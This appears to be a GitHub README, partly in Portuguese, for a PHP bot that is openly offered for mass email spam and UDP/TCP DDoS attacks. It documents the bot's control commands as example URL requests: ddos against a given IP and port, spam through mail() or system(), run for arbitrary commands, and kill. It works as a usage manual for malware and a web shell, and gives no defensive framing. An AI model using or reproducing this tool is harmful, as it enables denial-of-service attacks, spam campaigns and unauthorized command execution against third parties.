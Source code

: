 # PHP Bot (DDoS/Spam)

Bot em PHP utilizado para enviar emails em massa e realizar ataques DDoS (Negação de Serviço).

###Functions...
 DDos, Spam (Perl e PHP), Run command, Kill Perl running.

###Functions details...
 - DDoS:
        command = ddos.
        flag = Attack method: udp, tcp.
        data = IP:PORT.

        phpBot.php?hash=admin&command=ddos&flag=udp&data=111.111.111.111:22

 - Spam:
 
        command = spam, phpspam (spam via mail() function).
        flag = 1 é padrão para spam normal. 
              Para phpspam, 1 = Usa função system() para rodar enviador, 
              2 = Utiliza todas as funções (Envia repetido).
        data = null (default).

        POST data:
          maillist=...&subject=...&from=...&message=...
         
          phpBot.php?hash=admin&command=spam&flag=1&data=null

 - Run file:
 
          command = run.
          flag = 1 (default).
          data = Command to run

          phpBot.php?hash=admin&command=run&flag=1&data=dir.exe

 - Kill dependencies:
 
          command = kill.
          flag = 1 (default).
          data = null (default)

          phpBot.php?hash=admin&command=kill&flag=1&data=null


